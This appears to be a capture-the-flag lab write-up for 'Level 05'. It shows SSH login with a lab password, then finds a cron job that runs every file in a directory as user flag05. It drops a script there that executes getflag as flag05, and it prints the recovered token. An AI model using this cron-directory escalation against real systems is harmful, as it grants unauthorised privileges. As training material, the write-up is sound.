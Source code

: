 # Level 05

## Requirements

- None

## Walkthrough

1. Login from the __attacker__'s machine.

	```
	ssh -p 4242 level05@192.168.1.32
	Password: ne2searoevaevoem4ov4ar8ap
	You have new mail.
	```

1. Hey! We get something new here after login. Might be usefull if classic approach doesn't give anything.

	```sh
	You have new mail.
	```

1. Checking files.

	```sh
	> pwd
	/home/user/level05

	> ls -laRth
	.:
	total 12K
	dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
	-r-x------  1 level05 level05 3.5K Aug 30  2015 .bashrc
	d--x--x--x  1 root    users    340 Aug 30  2015 ..
	-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
	-r-x------  1 level05 level05  675 Apr  3  2012 .profile
	```

1. Well, the email looks like our best hint for now (before having to do a global `find`).

	```sh
	# Based on research, email location on Linux should be `/var/spool/mail`
	> ls -l /var/spool/mail/
	total 4
	-rw-r--r--+ 1 root mail 58 Aug 27 13:32 level05
	```

1. Great, we got something.

	```
	> cat /var/spool/mail/level05
	*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
	```

1. Ok, so we have a CRON job executing `/usr/sbin/openarenaserver` every 2 min as `flag05` user.

	```
	> cat /usr/sbin/openarenaserver
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done
	```

1. Fine, a simple Shell script. Let's analyze it.

	```sh
	#!/bin/sh

	# Loop through every file in `/opt/openarenaserver`
	for i in /opt/openarenaserver/* ;
	do
		# Set CPU time limit to 5 seconds
		# Execute file if it exists and is an executable
		(ulimit -t 5; bash -x "$i")
		# Delete the file
		rm -f "$i"
	done
	```

1. Gorgeous, we have an entry point. Let's try it!

	```sh
	> OUT=/tmp/flag05 && SCRIPT=/opt/openarenaserver/test && echo "getflag > $OUT" > $SCRIPT && chmod +x $SCRIPT
	```

1. Get the flag (after waiting ~2min for the CRON job to run).

	```sh
	> cat /tmp/flag05
	Check flag.Here is your token : viuaaale9huek52boumoomioc
	```

## Documentation

- Command: [bash](https://www.man7.org/linux/man-pages/man1/bash.1.html)
- Command: [cron](https://www.man7.org/linux/man-pages/man8/cron.8.html)
- Command: [chmod](https://man7.org/linux/man-pages/man1/chmod.1p.html)
